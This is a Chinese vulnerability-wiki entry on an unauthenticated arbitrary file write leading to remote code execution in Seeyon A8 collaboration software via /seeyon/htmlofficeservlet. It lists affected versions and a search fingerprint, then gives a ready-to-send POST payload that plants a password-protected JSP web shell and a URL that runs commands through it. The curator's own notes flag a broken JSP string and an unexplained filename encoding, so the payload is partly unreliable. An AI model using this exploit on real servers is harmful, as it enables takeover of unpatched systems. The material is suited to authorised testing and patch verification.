



# 致远A8 htmlofficeservlet文件写入→远程代码执行

## 条目说明

- 对象与具体问题：致远A8；htmlofficeservlet文件写入→RCE
- 版本、配置及部署条件：6.1sp1/7.0SP/7.1；frontmatter仅首行范围不完整
- 认证与权限前提：声称无认证
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 同多篇htmlofficeservlet DBSTEP报文；JSP out.println字符串被换行切断
- 最终testtesta.jsp与复用的FILENAME编码关系未解释，需静态解码核对
- 日期只6月26缺年份，修复无具体补丁；图片未查看
- 主文可合并版本但不能自动选本篇为正确payload

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行；命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

该漏洞最早于6月26号左右，有安全厂商发出漏洞预警。

远程攻击者在无需登录的情况下可通过向 URL /seeyon/htmlofficeservlet POST 精心构造的数据即可向目标服务器写入任意文件，写入成功后可执行任意系统命令进而控制目标服务器。

### 网络测绘

```
title="致远A8-V5协同管理软件 V6.1sp1"
```

### 漏洞影响

```
致远A8-V5协同管理软件V6.1sp1
致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3
致远A8+协同管理软件V7.1
```

### 漏洞复现

访问目标站点

```
/seeyon/htmlofficeservlet
```

出现如下图响应，则可能含有漏洞



使用POST请求发出如下请求包

```
DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
OPTION=S3WYOSWLBSGr
currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
CREATEDATE=wUghPB3szB3Xwg66
RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
originalFileId=wV66
originalCreateDate=wUghPB3szB3Xwg66
FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
needReadFile=yRWZdAS6
originalCreateDate=wLSGP4oEzLKAz4=iz=66
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("calsee".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("
<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>>a6e4f045d4b8506bf492ada7e3390d7ce
```



出现如图响应则为上传成功,访问

```
/seeyon/testtesta.jsp?pwd=calsee&cmd=cmd+/c+dir
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
